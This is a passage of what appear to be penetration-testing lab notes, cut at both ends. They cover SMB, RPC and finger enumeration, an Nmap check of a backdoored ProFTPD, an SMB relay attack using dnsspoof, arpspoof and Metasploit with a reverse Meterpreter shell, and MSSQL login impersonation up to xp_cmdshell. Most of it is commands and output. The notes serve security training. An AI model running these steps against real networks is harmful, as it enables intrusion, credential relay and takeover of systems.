  --exclude SHARE [SHARE ...]
                        Exclude share(s) from searching and listing, ex. --exclude ADMIN$ C$'

File Content Search:
  Options for searching the content of files (must run as root)

  -F PATTERN            File content search, -F '[Pp]assword' (requires admin access to execute commands, and PowerShell on victim host)
  --search-path PATH    Specify drive/path to search (used with -F, default C:\Users), ex 'D:\HR\'
  --search-timeout TIMEOUT
                        Specifcy a timeout (in seconds) before the file search job gets killed. Default is 300 seconds.

Filesystem interaction:
  Options for interacting with the specified host's filesystem

  --download PATH       Download a file from the remote system, ex.'C$\temp\passwords.txt'
  --upload SRC DST      Upload a file to the remote system ex. '/tmp/payload.exe C$\temp\payload.exe'
  --delete PATH TO FILE
                        Delete a remote file, ex. 'C$\temp\msf.exe'
  --skip                Skip delete file confirmation prompt

Examples:

$ smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1
$ smbmap -u jsmith -p 'aad3b435b51404eeaad3b435b51404ee:da76f2c4c96028b7a6111aef4a50a94d' -H 172.16.0.20
$ smbmap -u 'apadmin' -p 'asdf1234!' -d ACME -h 10.1.3.30 -x 'net group "Domain Admins" /domain'
```

`smbmap -H target-2`:
```
[+] Guest session       IP: target-2:445        Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        public                                                  READ, WRITE
        john                                                    NO ACCESS ←
        aisha                                                   NO ACCESS ←
        emma                                                    NO ACCESS ←
        everyone                                                NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (samba.recon.lab)
```

`rpcclient -U "" target-2`:
```
Enter WORKGROUP\'s password: ←
rpcclient $> help

---------------         ----------------------
         MDSSVC
fetch_properties                Fetch connection properties
fetch_attributes                Fetch attributes for a CNID
---------------         ----------------------

[...]

---------------         ----------------------
           SAMR
      queryuser         Query user info
     querygroup         Query group info
queryusergroups         Query user groups
queryuseraliases                Query user aliases
  querygroupmem         Query group membership
  queryaliasmem         Query alias membership
 queryaliasinfo         Query alias info
    deletealias         Delete an alias
  querydispinfo         Query display info
 querydispinfo2         Query display info
 querydispinfo3         Query display info
   querydominfo         Query domain info
   enumdomusers         Enumerate domain users ←
  enumdomgroups         Enumerate domain groups ←
  enumalsgroups         Enumerate alias groups
    enumdomains         Enumerate domains ←
  createdomuser         Create domain user
 createdomgroup         Create domain group
 createdomalias         Create domain alias
 samlookupnames         Look up names
  samlookuprids         Look up names
 deletedomgroup         Delete domain group
  deletedomuser         Delete domain user
 samquerysecobj         Query SAMR security object
   getdompwinfo         Retrieve domain password info
getusrdompwinfo         Retrieve user domain password info
   lookupdomain         Lookup Domain Name
      chgpasswd         Change user password
     chgpasswd2         Change user password
     chgpasswd3         Change user password
 getdispinfoidx         Get Display Information Index
    setuserinfo         Set user info
   setuserinfo2         Set user info2
---------------         ----------------------
      LSARPC-DS
  dsroledominfo         Get Primary Domain Information
---------------         ----------------------
         LSARPC
       lsaquery         Query info policy
     lookupsids         Convert SIDs to names
    lookupsids3         Convert SIDs to names
lookupsids_level                Convert SIDs to names
    lookupnames         Convert names to SIDs
   lookupnames4         Convert names to SIDs
lookupnames_level               Convert names to SIDs
      enumtrust         Enumerate trusted domains
      enumprivs         Enumerate privileges
    getdispname         Get the privilege name
     lsaenumsid         Enumerate the LSA SIDS
lsacreateaccount                Create a new lsa account
lsaenumprivsaccount             Enumerate the privileges of an SID
lsaenumacctrights               Enumerate the rights of an SID
     lsaaddpriv         Assign a privilege to a SID
     lsadelpriv         Revoke a privilege from a SID
lsaaddacctrights                Add rights to an account
lsaremoveacctrights             Remove rights from an account
lsalookupprivvalue              Get a privilege value given its name
 lsaquerysecobj         Query LSA security object
lsaquerytrustdominfo            Query LSA trusted domains info (given a SID)
lsaquerytrustdominfobyname              Query LSA trusted domains info (given a name), only works for Windows > 2k
lsaquerytrustdominfobysid               Query LSA trusted domains info (given a SID)
lsasettrustdominfo              Set LSA trusted domain info
    getusername         Get username
   createsecret         Create Secret
   deletesecret         Delete Secret
    querysecret         Query Secret
      setsecret         Set Secret
retrieveprivatedata             Retrieve Private Data
storeprivatedata                Store Private Data
 createtrustdom         Create Trusted Domain
 deletetrustdom         Delete Trusted Domain
---------------         ----------------------
GENERAL OPTIONS
           help         Get help on commands
              ?         Get help on commands
     debuglevel         Set debug level
          debug         Set debug level
           list         List available commands on <pipe>
           exit         Exit program
           quit         Exit program
           sign         Force RPC pipe connections to be signed
           seal         Force RPC pipe connections to be sealed
         packet         Force RPC pipe connections with packet authentication level
       schannel         Force RPC pipe connections to be sealed with 'schannel'. Assumes valid machine account to this domain controller.
   schannelsign         Force RPC pipe connections to be signed (not sealed) with 'schannel'.  Assumes valid machine account to this domain controller.
        timeout         Set timeout (in milliseconds) for RPC operations
      transport         Choose ncacn transport for RPC operations
           none         Force RPC pipe connections to have no special properties
           
rpcclient $> enumdomusers
user:[john] rid:[0x3e8] ←
user:[elie] rid:[0x3ea] ←
user:[aisha] rid:[0x3ec] ←
user:[shawn] rid:[0x3e9] ←
user:[emma] rid:[0x3eb] ←
user:[admin] rid:[0x3ed] ←
rpcclient $> enumdomgroups
group:[Maintainer] rid:[0x3ee]
group:[Reserved] rid:[0x3ef]
rpcclient $> enumdomains
name:[SAMBA-RECON] idx:[0x0]
name:[Builtin] idx:[0x1]
```

`exit`

`vim ./target-2_users.txt`:
```
admin
aisha
elie
emma
john
shawn
```

<span style="color: #ffb74d;">**Target (`target-3`) machine enumeration**</span>.

```
Nmap scan report for target-3 (192.5.159.5) ←
Host is up (0.000022s latency).
PORT   STATE SERVICE VERSION
79/tcp open  finger  Linux fingerd ←
```

`msfconsole -q`

`search finger`, `use auxiliary/scanner/finger/finger_users`, `show options`, `set RHOSTS target-3`, `set USERS_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt`, `run`:
```
[+] 192.5.159.5:79        - 192.5.159.5:79 - Found user: administrator
[+] 192.5.159.5:79        - 192.5.159.5:79 - Found user: diag
[+] 192.5.159.5:79        - 192.5.159.5:79 Users found: administrator, diag ←
[*] target-3:79           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

`exit`

`locate finger-user-enum`:
```
/root/Desktop/tools/finger-user-enum
/root/Desktop/tools/finger-user-enum/CHANGELOG
/root/Desktop/tools/finger-user-enum/COPYING
/root/Desktop/tools/finger-user-enum/COPYING.GPL
/root/Desktop/tools/finger-user-enum/LICENSE
/root/Desktop/tools/finger-user-enum/README.md
/root/Desktop/tools/finger-user-enum/finger-user-enum-user-docs.pdf
/root/Desktop/tools/finger-user-enum/finger-user-enum.pl
```

`/root/Desktop/tools/finger-user-enum/finger-user-enum.pl -h`:
```
finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

Usage: finger-user-enum.pl [options] ( -u username | -U file-of-usernames ) ( -t host | -T file-of-targets )

options are:
        -m n     Maximum number of resolver processes (default: 5)
        -u user  Check if user exists on remote system
        -U file  File of usernames to check via finger service ←
        -t host  Server host running finger service ←
        -T file  File of hostnames running the finger service
        -r host  Relay.  Intermediate server which allows relaying of finger requests.
        -p port  TCP port on which finger service runs (default: 79)
        -d       Debugging output
        -s n     Wait a maximum of n seconds for reply (default: 5)
        -v       Verbose
        -h       This help message

Also see finger-user-enum-user-docs.pdf from the finger-user-enum tar ball.

Examples:

$ finger-user-enum.pl -U users.txt -t 10.0.0.1 ←
$ finger-user-enum.pl -u root -t 10.0.0.1
$ finger-user-enum.pl -U users.txt -T ips.txt
```

`/root/Desktop/tools/finger-user-enum/finger-user-enum.pl -U /usr/share/metasploit-framework/data/wordlists/common_users.txt -t target-3`:
```
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... /usr/share/metasploit-framework/data/wordlists/common_users.txt
Target count ............. 1
Username count ........... 8
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started at Wed Aug 28 18:19:06 2024 #########
administrator@target-3: Login: administrator                    Name: Thomas A. Emerson..Directory: /home/administrator         Shell: /bin/bash..Office: 5483, 262-781-4368          Home Phone: 408-733-5807..Never logged in...No mail...No Plan... ←
sysadmin@target-3: fing ←
diag@target-3: Login: diag                              Name: Flag2 F765F7A0A169F4F6654EE72A84A9EB..Directory: /home/diag                       Shell: /bin/bash..Office: 353, 567-537-1198           Home Phone: 410-364-2969..Never logged in...No mail...No Plan... ←
######## Scan completed at Wed Aug 28 18:19:06 2024 #########
3 results.

8 queries in 1 seconds (8.0 queries / sec)
```

`vim ./target-3_users.txt`:
```
administrator
sysadmin
diag
```

`finger administrator@target-3`:
```
Login: administrator ←                  Name: Thomas A. Emerson
Directory: /home/administrator          Shell: /bin/bash
Office: 5483, 262-781-4368              Home Phone: 408-733-5807
Never logged in.
No mail.
No Plan.
```

<span style="color: #e57373;">**Target (`target-4`) machine enumeration**</span>.

```
Nmap scan report for target-4 (192.5.159.6) ←
Host is up (0.000022s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c ←
```

`ls -alps /usr/share/namp/scripts/ | grep -e "ftp"`:
```
 8 -rw-r--r-- 1 root root  4530 Oct 26  2021 ftp-anon.nse
 4 -rw-r--r-- 1 root root  3253 Oct 26  2021 ftp-bounce.nse
 4 -rw-r--r-- 1 root root  3108 Oct 26  2021 ftp-brute.nse
 4 -rw-r--r-- 1 root root  3272 Oct 26  2021 ftp-libopie.nse
 4 -rw-r--r-- 1 root root  3290 Oct 26  2021 ftp-proftpd-backdoor.nse ←
 4 -rw-r--r-- 1 root root  3768 Oct 26  2021 ftp-syst.nse
 8 -rw-r--r-- 1 root root  6021 Oct 26  2021 ftp-vsftpd-backdoor.nse
 8 -rw-r--r-- 1 root root  5923 Oct 26  2021 ftp-vuln-cve2010-4221.nse
 8 -rw-r--r-- 1 root root  5736 Oct 26  2021 tftp-enum.nse
```

`nmap -sS --script=ftp-proftpd-backdoor -p21 target-4`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-28 19:16 IST
Nmap scan report for target-4 (192.5.159.6)
Host is up (0.000062s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.
|   Command: id
|_  Results: uid=0(root) gid=0(root) groups=0(root),65534(nogroup) ←
MAC Address: 02:42:C0:05:9F:06 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 5.29 seconds
```

---

## Exploitation

### Windows Exploitation: SMB Relay Attack - Theory

**SMB Relay Attack**

An SMB relay attack is a type of network attack where an attacker <u>intercepts SMB (Server Message Block) traffic, manipulates it, and relays it to a legitimate server to gain unauthorized access to resources or perform malicious actions</u>.

This type of attack is common in Windows networks, where SMB is used for file sharing, printer sharing, and other network services.

**How SMB Relay Attacks Work**

1. **Interception**: The attacker sets up a <u>man-in-the-middle</u> position between the client and the server. This can be done using various techniques, such as ARP spoofing, DNS poisoning, or setting up a rogue SMB server.
2. **Capturing Authentication**: <u>When a client connects to a legitimate server via SMB, it sends authentication data. The attacker captures this data, which might include NTLM (NT LAN Manager) hashes</u>.
3. **Relaying to a Legitimate Server**: Instead of decrypting the captured NTLM hash, the attacker <u>relays it to another server that trusts the source. This allows the attacker to impersonate the user whose hash was captured</u>.
4. **Gain Access**: If the relay is successful, the attacker can gain access to the resources on the server, which might include sensitive files, databases, or administrative privileges. This access could lead to further lateral movement within the network, compromising additional systems.

### Windows Exploitation: DNS and SMB Relay Attack (with dnsspoof, arpspoof, Metasploit) - Lab

#### Lab Environment 

You are hired by a small company to perform a security assessment. Your customer is **sportsfoo.com** and they want your help to test the security of their environment, according to the scope below.

**The assumptions of this security engagement are:**
1. You are going to do an internal penetration test, where you will be connected directly into their LAN network **172.16.5.0/24**. The scope in this test is only the **172.16.5.0/24** segment.
2. You are in a production network, so you should not lock any user account by guessing their usernames and passwords.

The following image represents the LAB environment:


**Goals**
- Exploitation using **SMB Relay Attack**.
- Manipulating network traffic with **dnsspoof**.

**What you will learn**
- How to use the **SMB Relay Attack** in order to compromise patched hosts.
- How to use the **dnsspoof** tool in order to redirect systems to the host that you control.

**Recommended tools**
- dnsspoof
- Metasploit.

##### Tasks

Launch an attack using the **SMB Relay Exploit** in a way that once the Client (**172.16.5.5**) issues a **SMB** connection to any hosts on the **.sportsfoo.com** domain it can be redirected to your Metasploit server, and then you can use its credentials to get a shell on the target machine (**172.16.5.10**).

This is a graphic that represents how this attack should work:



1. Client (Windows 7) issues a SMB connection to **\\\\fileserver.sportsfoo.com\\finance$** at every 30 seconds or so.
2. The attacker machine intercepts this request and spoofs the IP address of **fileserver.sportsfoo.com**.
3. Then the Windows 7 system issues a **SMB** connection to **\\\\172.16.5.101** (attacker machine) instead of using the real IP of the **fileserver.sportsfoo.com**.
4. The **SMB Relay exploit** is already listening, receives the SMB connection, and relays the authentication to the target machine. The payload is a Windows Meterpreter shell.
5. Once the exploit authenticates on the target machine, a reverse Meterpreter session is provided to the pentester.

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

_Confirm the network configuration on the attacker's machine._

`ifconfig`:
```
adlab0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.0.3  netmask 255.255.255.0  broadcast 192.168.0.255
        inet6 fe80::a00:27ff:fef9:76b6  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:f9:76:b6  txqueuelen 1000  (Ethernet)
        RX packets 336  bytes 26498 (25.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 967  bytes 1090982 (1.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.101  netmask 255.255.255.0  broadcast 172.16.5.255 ←
        inet6 fe80::a00:27ff:fed4:ee5d  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:d4:ee:5d  txqueuelen 1000  (Ethernet)
        RX packets 181  bytes 11789 (11.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 13  bytes 1046 (1.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 734  bytes 14859851 (14.1 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 734  bytes 14859851 (14.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

_Scan the network to identify live hosts in the `172.16.5.0/24` subnet._

`fping -a -g ./24 2> /dev/null`:
```
172.16.5.1
172.16.5.5 ←
172.16.5.10 ←
172.16.5.101
```

**Explanation:** _This reveals the presence of a client at `172.16.5.5` and a server at `172.16.5.10`, both of which are potential targets for the attack._

_Perform a full port scan on the target server to identify open ports and services._

`nmap -Pn -sS -sV -p- -T4 172.16.5.10`:
```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-21 19:04 EST
Nmap scan report for 172.16.5.10
Host is up (0.00040s latency).
Not shown: 65523 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn ←
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP) ←
3389/tcp  open  ssl/ms-wbt-server?
5800/tcp  open  vnc-http           TightVNC (user: fileserver; VNC TCP port: 5900)
5900/tcp  open  vnc                VNC (protocol 3.8)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
MAC Address: 08:00:27:7F:4F:D8 (Oracle VirtualBox virtual NIC)
Service Info: Host: FILESERVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.80 seconds
```

**Explanation:** _The server at `172.16.5.10` has the SMB service running on port 445, which is crucial for the SMB Relay attack._

_Prepare the hosts file to spoof DNS requests for the `.sportsfoo.com` domain._

`echo "172.16.5.101 *.sportsfoo.com" > ./hosts`

_Use `dnsspoof` to redirect DNS traffic intended for `.sportsfoo.com` to the attacker's machine._

`dnsspoof -h`:
```
Version: 2.4
Usage: dnsspoof [-i interface] [-f hostsfile] [expression]
```

`dnsspoof -i eth1 -f ./hosts`:
```
dnsspoof: listening on eth1 [udp dst port 53 and not src 172.16.5.101]
```

**Explanation:** _This command sets up DNS spoofing, so any DNS request for the `.sportsfoo.com` domain is redirected to the attacker's IP `172.16.5.101`._

_Enable IP forwarding to allow the attacker's machine to act as a man-in-the-middle._

`echo 1 > /proc/sys/net/ipv4/ip_forward`

_Spoof ARP requests to redirect traffic between the client and gateway._

`arpspoof -h`:
```
Version: 2.4
Usage: arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
```

`arpspoof -i eth1 -t 172.16.5.1 172.16.5.5`:
```
8:0:27:d4:ee:5d a:0:27:0:0:3 0806 42: arp reply 172.16.5.5 is-at 8:0:27:d4:ee:5d
8:0:27:d4:ee:5d a:0:27:0:0:3 0806 42: arp reply 172.16.5.5 is-at 8:0:27:d4:ee:5d
8:0:27:d4:ee:5d a:0:27:0:0:3 0806 42: arp reply 172.16.5.5 is-at 8:0:27:d4:ee:5d

[...]
```

**Explanation:** _This command tells the gateway (`172.16.5.1`) that the attacker's machine is the client (`172.16.5.5`)._

`arpspoof -i eth1 -t 172.16.5.5 172.16.5.1`:
```
8:0:27:d4:ee:5d 8:0:27:8f:79:cc 0806 42: arp reply 172.16.5.1 is-at 8:0:27:d4:ee:5d
8:0:27:d4:ee:5d 8:0:27:8f:79:cc 0806 42: arp reply 172.16.5.1 is-at 8:0:27:d4:ee:5d
8:0:27:d4:ee:5d 8:0:27:8f:79:cc 0806 42: arp reply 172.16.5.1 is-at 8:0:27:d4:ee:5d

[...]
```

**Explanation:** _This command tells the client (`172.16.5.5`) that the attacker's machine is the gateway (`172.16.5.1`). Together, these commands allow the attacker to intercept traffic between the client and the gateway._

_Launch Metasploit and configure the SMB Relay attack._

`msfconsole -q`

`search smb_relay`, `use exploit/windows/smb/smb_relay`, `set PAYLAD windows/meterpreter/reverse_tcp`, `show options`, `set SMBHOST 172.16.5.10`, `set SRVHOST 172.16.5.101`,  `set LHOST 172.16.5.101`, `set LPORT 4444`, `exploit`:
```
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.5.101:4444  ←
[*] Started service listener on 172.16.5.101:445 ←
[*] Server started.
```

**Explanation:** _This sets up the SMB Relay exploit to intercept and relay SMB authentication attempts from the client (`172.16.5.5`) to the target server (`172.16.5.10`)._

_Observe the successful exploitation and opening of a Meterpreter session._

```
[*] Sending NTLMSSP NEGOTIATE to 172.16.5.10 ←
[*] Extracting NTLMSSP CHALLENGE from 172.16.5.10 ←
[*] Forwarding the NTLMSSP CHALLENGE to 172.16.5.5:49165 ←
[*] Extracting the NTLMSSP AUTH resolution from 172.16.5.5:49165, and sending Logon Failure response ←
[*] Forwarding the NTLMSSP AUTH resolution to 172.16.5.10 ←
[+] SMB auth relay against 172.16.5.10 succeeded
[*] Connecting to the defined share...
[*] Regenerating the payload...
[*] Uploading payload...
[*] Created \eJzCwcEc.exe...
[*] Connecting to the Service Control Manager...
[*] Obtaining a service manager handle...
[*] Creating a new service...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \eJzCwcEc.exe...
[*] Sending stage (175174 bytes) to 172.16.5.10
[*] Meterpreter session 1 opened (172.16.5.101:4444 -> 172.16.5.10:49158) at 2022-01-21 19:13:04 -0500 ←
```

_Interact with the Meterpreter session to confirm system privileges._

`sessions`, `sessions -i 1`

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_Check the user context of the Meterpreter session._

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

_Retrieve system information to verify the target machine's details._

`sysinfo`:
```
Computer        : FILESERVER
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
```

### Windows Exploitation: MSSQL DB User Impersonation to RCE (with Nmap, impacket-mssqlclient) - Lab

#### Lab Environment

Kali GUI machine and a target machine running an MSSQL service are provided to you. The user will access the windows server deployed on `demo.ine.local`.

Your task is to fingerprint the MSSQL service using the tools available on the Kali machine. Then, use the mssqlclient.py to connect to the remote MSSQL service and perform database user privilege escalation and gain the shell on the target machine.

Privilege Escalation Path:
`bob` -> `dbuser` -> `sa`

**Objective**: Exploit the server and retrieve the flag!

The following username and password may be used to access the service:
	- Username: "bob"
	- Password: "KhyUuxwp7Mcxo7".

Instructions:
- The IP address of the target machine is mentioned in the file `/root/Desktop/target`.

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.7  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:07  txqueuelen 0  (Ethernet)
        RX packets 1807  bytes 155738 (152.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1774  bytes 1868727 (1.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.42.4  netmask 255.255.255.0  broadcast 10.10.42.255 ←
        ether 02:42:0a:0a:2a:04  txqueuelen 0  (Ethernet)
        RX packets 11  bytes 866 (866.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 4726  bytes 18535612 (17.6 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4726  bytes 18535612 (17.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`fping -a -g 10.10.42.0/24 > /dev/null`:
```
10.10.42.1
10.10.42.4
```

`cat /etc/hosts`:
```
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.1.0.7        INE
10.10.42.4      INE
127.0.0.1 AttackDefense-Kali
10.4.18.19    demo.ine.local ←
```

`fping demo.ine.local`:
```
demo.ine.local is alive ←
```

`nmap -Pn -sS -sV -p- -T4 demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-29 18:18 IST
Nmap scan report for demo.ine.local (10.4.18.19)
Host is up (0.0086s latency).
Not shown: 65508 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-29 12:49:48Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: contoso.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: CONTOSO)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000 ←
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: contoso.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  msrpc         Microsoft Windows RPC
63172/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000
Service Info: Host: MSSQL-SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows ←

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 143.97 seconds
```

`ls -alps /usr/share/nmap/scripts/ | grep -e "ms-sql"`:
```
 4 -rw-r--r-- 1 root root  3813 Oct 26  2021 broadcast-ms-sql-discover.nse
12 -rw-r--r-- 1 root root 12013 Oct 26  2021 ms-sql-brute.nse
 8 -rw-r--r-- 1 root root  6055 Oct 26  2021 ms-sql-config.nse
 4 -rw-r--r-- 1 root root  3381 Oct 26  2021 ms-sql-dac.nse
 8 -rw-r--r-- 1 root root  4363 Oct 26  2021 ms-sql-dump-hashes.nse
 8 -rw-r--r-- 1 root root  7108 Oct 26  2021 ms-sql-empty-password.nse
 8 -rw-r--r-- 1 root root  5941 Oct 26  2021 ms-sql-hasdbaccess.nse
12 -rw-r--r-- 1 root root 11343 Oct 26  2021 ms-sql-info.nse ←
 4 -rw-r--r-- 1 root root  3932 Oct 26  2021 ms-sql-ntlm-info.nse
 8 -rw-r--r-- 1 root root  4724 Oct 26  2021 ms-sql-query.nse
12 -rw-r--r-- 1 root root  9395 Oct 26  2021 ms-sql-tables.nse
 8 -rw-r--r-- 1 root root  6255 Oct 26  2021 ms-sql-xp-cmdshell.nse
```

`nmap -Pn -sS --script=ms-sql-info -p1433 demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-29 18:19 IST
Nmap scan report for demo.ine.local (10.4.18.19)
Host is up (0.0089s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s

Host script results:
| ms-sql-info: 
|   10.4.18.19:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00 ←
|       Product: Microsoft SQL Server 2019 ←
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
```

`mssqlclient.py bob:KhyUuxwp7Mcxo7@demo.ine.local`:
```
Impacket v0.10.1.dev1+20220513.140233.fb1e50c1 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MSSQL-SERVER\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MSSQL-SERVER\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) ←
[!] Press help for extra shell commands
```

<span style="color: #64b5f6;">**Target (`demo.ine.local`) machine**</span>.

`help`:
```
     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means ←
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell ←
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

`enable_xp_cmdshell`:
```
[-] ERROR(MSSQL-SERVER\SQLEXPRESS): Line 105: User does not have permission to perform this action. ←
[-] ERROR(MSSQL-SERVER\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
[-] ERROR(MSSQL-SERVER\SQLEXPRESS): Line 105: User does not have permission to perform this action.
[-] ERROR(MSSQL-SERVER\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
```

`SELECT system_user`:
```
bob ←
```

`SELECT * FROM sys.sql_logins`:
```
name       principal_id   is_disabled   default_database_name   is_policy_checked   is_expiration_checked   password_hash
----       ------------   -----------   --------------------   -----------------   ---------------------   --------------
sa ←                1              0   master                  0 ←                 0                       NULL
bob               269              0   master                  1                   0                       NULL
dbuser            270              0   master                  1                   0                       NULL
```

`SELECT name, password_hash FROM sys.sql_logins`:
```
name       password_hash
----       --------------
sa         NULL
bob        NULL
dbuser     NULL
```

`EXECUTE AS login = 'sa'`:
```
[-] ERROR(MSSQL-SERVER\SQLEXPRESS): Line 1: Cannot execute as the database principal because the principal "sa" does not exist, this type of principal cannot be impersonated, or you do not have permission. ←
```

`EXECUTE AS login = 'dbuser'`

`SELECT system_user`:
```
dbuser ←       
```

`EXECUTE AS login = 'sa'`

`SELECT system_user`:
```
sa ←
```

`enable_xp_cmdshell`:
```
[*] INFO(MSSQL-SERVER\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
